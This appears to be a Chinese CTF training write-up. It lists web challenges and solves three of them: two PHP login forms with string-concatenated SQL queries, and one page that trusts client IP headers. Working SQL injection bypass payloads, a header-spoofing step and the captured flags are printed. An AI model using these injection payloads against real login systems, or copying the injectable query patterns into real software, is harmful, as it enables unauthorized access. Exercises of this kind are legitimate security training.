





# 2022 Summer Training 3
## Reverse shell included
> You need reverse shell for this time.
>
> http://103.102.44.218:10020/


## Not easy SQL injection
> Before the sql injection, some other things should be done...
> 
> http://103.102.44.218:10021/


## PHP POP
> Yet another competition challenge.
>
> http://103.102.44.218:10023/


## SQLI
> Inject me!
>
> http://103.102.44.218:10025/

打开链接，根据提示url后改为 /web9.php.bak，下载得到源码。



```php
<html>
    <head>
        welcome to simplexue
    </head>
    <body>
    <?php
        include(__FILE__);
        if(!isset($_POST['user'])){
	        show_source(__FILE__);
	        die();
        }
        $user = $_POST[user];
        $pass = md5($_POST[pass]);

        $sql = "select pw from php where user='$user'";
        $query = mysql_query($sql);
        if (!$query) {
	        printf("Error: %s\n", mysql_error($conn));
	        exit();
        }
        $row = mysql_fetch_array($query, MYSQL_ASSOC);
        //echo $row["pw"];
  
        if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
	        echo "<p>Logged in! Key:************** </p>";
        }
        else {
            echo("<p>Log in failure!</p>");
	    }
    ?>
        <form method=post action=index.php>
            <input type=text name=user value="Username">
            <input type=password name=pass value="Password">
            <input type=submit>
        </form>
    </body>
    <a href="index.txt">
</html>
```

注意到用了md5加密password，故构造：（其中 `0cc175b9c0f1b6a831c399e269772661` 是 `a` 的32位md5值）

```
用户名：a' and 1=1 union select concat('0cc175b9c0f1b6a831c399e269772661') # 
密码：a
```

成功登录，获得flag：CTF{simple_sqli}



## Simple SQLI
> Finish this very fast and warm up!
>
> http://103.102.44.218:10026/

打开链接，根据提示url后改为 /web9.php.bak，下载得到源码。



```php
<html>
    <head>
        welcome to simplexue
    </head>
    <body>
    <?php
        include("../web9/db.php");
        $user = $_POST[user];
        $pass = md5($_POST[pass]);

        $sql = "select user from php where (user='$user') and (pw='$pass')";
        $query = mysql_query($sql);
        if (!$query) {
	        printf("Error: %s\n", mysql_error($conn));
	        exit();
        }
        $row = mysql_fetch_array($query, MYSQL_ASSOC);
        //echo $row["pw"];
        if($row['user']=="admin") {
            echo "<p>Logged in! Key: *********** </p>";
        }

        if($row['user'] != "admin") {
            echo("<p>You are not admin!</p>");
        }
    ?>
        <form method=post action=index.php>
            <input type=text name=user value="Username">
            <input type=password name=pass value="Password">
            <input type=submit>
        </form>
    </body>
    <a href="index.txt">
</html>
```

主要处理与上一题相同，这题最主要还是看如何绕过括号的限制。构造：
```
用户名：') or 1=1 union select concat('admin') # 
```

成功登录，获得flag：CTF{ANOTHER_simple_sqli}



## What's my IP address?
> The super duper IP address plus!
>
> http://103.102.44.218:10027/

打开链接，是php源码。

```php
<?php
include("flag.php");
function GetIP(){
    if(!empty($_SERVER["HTTP_CLIENT_IP"]))
        $cip = $_SERVER["HTTP_CLIENT_IP"];
    else if(!empty($_SERVER["HTTP_X_FORWARDED_FOR"]))
        $cip = $_SERVER["HTTP_X_FORWARDED_FOR"];
    else if(!empty($_SERVER["REMOTE_ADDR"]))
        $cip = $_SERVER["REMOTE_ADDR"];
    else
        $cip = "0.0.0.0";
    return $cip;
}

$GetIPs = GetIP();
echo $GetIPs;

if ($GetIPs=="1.1.1.1") {
    echo "Great! Key is $flag";
}
else {
    echo "Error! Your IP address isn't in the legal range!";
}
show_source(__FILE__);
?>
```

用Burp Suite抓包，修改http文件头，发送得flag：flag{d9824328210b0bb774c3b27db3bc8acc}。

